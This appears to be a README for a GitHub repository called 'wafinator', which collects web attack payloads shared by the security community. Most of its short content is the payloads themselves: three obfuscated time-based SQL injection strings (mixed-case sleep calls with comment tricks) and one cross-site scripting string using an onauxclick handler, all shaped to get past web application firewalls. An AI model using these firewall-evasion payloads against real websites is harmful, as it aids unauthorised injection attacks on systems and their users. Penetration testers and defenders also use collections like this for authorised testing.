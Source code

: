 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


-SleEp(0x2);--<br>
-slEEp("5A");--<br>
-SleEP/*(*/(5);--<br>
J<d3v/onauxclick=[2].some(confirm)>O<br>
